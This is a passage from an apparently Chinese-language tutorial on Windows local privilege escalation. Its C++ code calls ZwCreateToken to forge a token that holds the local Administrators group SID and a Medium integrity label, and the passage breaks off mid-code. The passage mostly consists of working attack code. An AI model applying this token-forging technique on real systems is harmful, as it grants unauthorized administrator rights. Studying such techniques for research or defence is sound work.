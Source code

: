 ```c++
		pTokenOwner,
		pTokenPrimaryGroup,
		pTokenDefaultDacl,
		&tokenSource
	);
	if (Status != STATUS_SUCCESS)
	{
		wprintf(L"[-] ZwCreateToken Error: [0x%x].\n", Status);
		goto Clear;
	}
	wprintf(L"[*] ZwCreateToken successfully and get elevated token:\n\n");

	goto Clear;

Clear:
	if (pTokenPrivileges)
		LocalFree(pTokenPrivileges);
	if (pTokenOwner)
		LocalFree(pTokenOwner);
	if (hToken)
		CloseHandle(hToken);

	return pElevatedToken;
}
```

在 `CreateUserToken()` 函数内部，首先定义了新令牌对象的属性，以保证最终生成的令牌的模拟级别为 SecurityImpersonation：

```c++
SECURITY_QUALITY_OF_SERVICE securityQualityOfService = { sizeof(securityQualityOfService), SecurityImpersonation, SECURITY_STATIC_TRACKING, FALSE };
OBJECT_ATTRIBUTES objectAttributes = { sizeof(objectAttributes), 0, 0, 0, 0, &securityQualityOfService };
```

然后定义了两个 SID，分别代表本地管理员组的 SID，和 Medium 完整想等级等级的 SID：

```c++
SID_BUILTIN LocalAdminGroupSID = { 1, 2,{ 0, 0, 0, 0, 0, 5 },{ 32, DOMAIN_ALIAS_RID_ADMINS } };
SID_INTEGRITY IntegrityMediumSID = { 1, 1, SECURITY_MANDATORY_LABEL_AUTHORITY, SECURITY_MANDATORY_MEDIUM_RID };
```

接着通过 `GetProcAddress()` API 将 `ZwCreateToken()` 函数从 ntdll.dll 模块中加载进来，需要预先定义 ZwCreateToken 类型：

```c++
// ...
typedef NTSYSAPI NTSTATUS(NTAPI* _ZwCreateToken)(
	OUT PHANDLE TokenHandle,
	IN ACCESS_MASK DesiredAccess,
	IN POBJECT_ATTRIBUTES ObjectAttributes,
	IN TOKEN_TYPE Type,
	IN PLUID AuthenticationId,
	IN PLARGE_INTEGER ExpirationTime,
	IN PTOKEN_USER User,
	IN PTOKEN_GROUPS Groups,
	IN PTOKEN_PRIVILEGES Privileges,
	IN PTOKEN_OWNER Owner,
	IN PTOKEN_PRIMARY_GROUP PrimaryGroup,
	IN PTOKEN_DEFAULT_DACL DefaultDacl,
	IN PTOKEN_SOURCE Source
);
// ...
_ZwCreateToken ZwCreateToken;
// ...
ZwCreateToken = (_ZwCreateToken)GetProcAddress(LoadLibraryA("ntdll"), "ZwCreateToken");
if (ZwCreateToken == NULL) {
```